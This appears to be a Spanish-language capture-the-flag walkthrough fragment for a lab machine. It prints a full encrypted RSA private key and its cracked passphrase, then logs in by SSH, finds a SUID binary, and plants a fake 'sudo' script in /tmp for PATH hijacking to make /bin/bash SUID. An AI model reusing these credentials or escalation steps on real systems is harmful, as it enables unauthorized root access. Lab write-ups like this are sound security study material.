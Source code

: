 ```bash
ipfs get QmViFN1CKxrg3ef1S8AJBZzQ2QS8xrcq3wHmyEfyXYjCMF

Decodificamos la ID_RSA en base64 

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,53D881F299BA8503

SeCNYw/BsXPyQq1HRLEEKhiNIVftZagzOcc64ff1IpJo9IeG7Z/zj+v1dCIdejuk
7ktQFczTlttnrIj6mdBb6rnN6CsP0vbz9NzRByg1o6cSGdrL2EmJN/eSxD4AWLcz
n32FPY0VjlIVrh4rjhRe2wPNogAciCHmZGEB0tgv2/eyxE63VcRzrxJCYl+hvSZ6
fvsSX8A4Qr7rbf9fnz4PImIgurF3VhQmdlEmzDRT4m/pqf3TmGAk9+wriqnkODFQ
I+2I1cPb8JRhLSz3pyB3X/uGOTnYp4aEq+AQZ2vEJz3FfX9SX9k7dd6KaZtSAzqi
w981ES85Dk9NUo8uLxnZAw3sF7Pz4EuJ0Hpo1eZgYtKzvDKrrw8uo4RCadx7KHRT
inKXduHznGA1QROzZW7xE3HEL3vxR9gMV8gJRHDZDMI9xlw99QVwcxPcFa31AzV2
yp3q7yl954SCMOti4RC3Z4yUTjDkHdHQoEcGieFOWU+i1oij4crx1LbO2Lt8nHK6
G1Ccq7iOon4RsTRlVrv8liIGrxnhOY295e9drl7BXPpJrbwso8xxHlT3333YU9dj
hQLNp5+2H4+i6mmU3t2ogToP4skVcoqDlCC+j6hDOl4bpD9t6TIJurWxmpGgNxes
q8NsAentbsD+xl4W6q5muLJQmj/xQrrHacEZDGI8kWvZE1iFmVkD/xBRnwoGZ5ht
DyilLPpl9R+Dh7by3lPm8kf8tQnHsqpRHceyBFFpnq0AUdEKkm1LRMLAPYILblKG
jwrCqRvBKRMIl6tJiD87NM6JBoQydOEcpn+6DU+2Actejbur0aM74IyeenrGKSSZ
IZMsd2kTSGUxy9o/xPKDkUw/SFUySmmwiqiFL6PaDgxWQwHxtxvmHMhL6citNdIw
TcOTSJczmR2pJxkohLrH7YrS2alKsM0FpFwmdz1/XDSF2D7ibf/W1mAxL5UmEqO0
hUIuW1dRFwHjNvaoSk+frAp6ic6IPYSmdo8GYYy8pXvcqwfRpxYlACZu4Fii6hYi
4WphT3ZFYDrw7StgK04kbD7QkPeNq9Ev1In2nVdzFHPIh6z+fmpbgfWgelLHc2et
SJY4+5CEbkAcYEUnPWY9SPOJ7qeU7+b/eqzhKbkpnblmiK1f3reOM2YUKy8aaleh
nJYmkmr3t3qGRzhAETckc8HLE11dGE+l4ba6WBNu15GoEWAszztMuIV1emnt97oM
ImnfontOYdwB6/2oCuyJTif8Vw/WtWqZNbpey9704a9map/+bDqeQQ41+B8ACDbK
WovsgyWi/UpiMT6m6rX+FP5D5E8zrYtnnmqIo7vxHqtBWUxjahCdnBrkYFzl6KWR
gFzx3eTatlZWyr4ksvFmtobYkZVAQPABWz+gHpuKlrqhC9ANzr/Jn+5ZfG02moF/
edL1bp9HPRI47DyvLwzT1/5L9Zz6Y+1MzendTi3KrzQ/Ycfr5YARvYyMLbLjMEtP
UvJiY40u2nmVb6Qqpiy2zr/aMlhpupZPk/xt8oKhKC+l9mgOTsAXYjCbTmLXzVrX
15U210BdxEFUDcixNiwTpoBS6MfxCOZwN/1Zv0mE8ECI+44LcqVt3w==
-----END RSA PRIVATE KEY----- 
```

Parece encriptada, procedemos con ssh2john a obtener un hash y crackearlo
`jackychain`

Nos conectamos con la id_rsa como Bobby por SSH.

```bash
bobby@chainsaw:/opt$ find / -perm -4000 2>/dev/null
/home/bobby/projects/ChainsawClub/ChainsawClub
```

Procedemos a hacer el comando `strings al binario SUID ChainsawClub` encontramos que `se esta llamando de forma relativa al comando sudo`
Podemos efectuar PATH HIJACKING

```bash
cd /tmp
nano "sudo" --> 
------------------
#!/bin/bash 
"chmod u+s /bin/bash"
-------------------
```
